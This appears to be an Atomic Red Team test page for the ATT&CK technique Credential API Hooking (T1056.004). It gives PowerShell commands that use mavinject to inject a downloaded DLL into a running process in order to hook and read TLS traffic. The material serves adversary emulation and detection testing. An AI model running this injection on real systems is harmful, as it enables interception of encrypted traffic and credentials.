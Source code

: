 ```yaml
---
tags: [T1056_004, atomic_test]
filename: "[[T1056.004|T1056.004 - Input Capture: Credential API Hooking]]"
---
```

# T1056.004 - Input Capture: Credential API Hooking

## Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages
Hooks functions in PowerShell to read TLS Communications

**Supported Platforms:** Windows


**auto_generated_guid:** de1934ea-1fbf-425b-8795-65fb27dd7e33





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | Dll To Inject | path | PathToAtomicsFolder&#92;T1056.004&#92;bin&#92;T1056.004x64.dll|
| server_name | TLS Server To Test Get Request | url | https://www.example.com|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
mavinject $pid /INJECTRUNNING "#{file_name}"
Invoke-WebRequest #{server_name} -UseBasicParsing
```




#### Dependencies:  Run with `powershell`!
##### Description: T1056.004x64.dll must exist on disk at specified location (#{file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1056.004/bin/T1056.004x64.dll" -OutFile "#{file_name}" -UseBasicParsing
```




<br/>
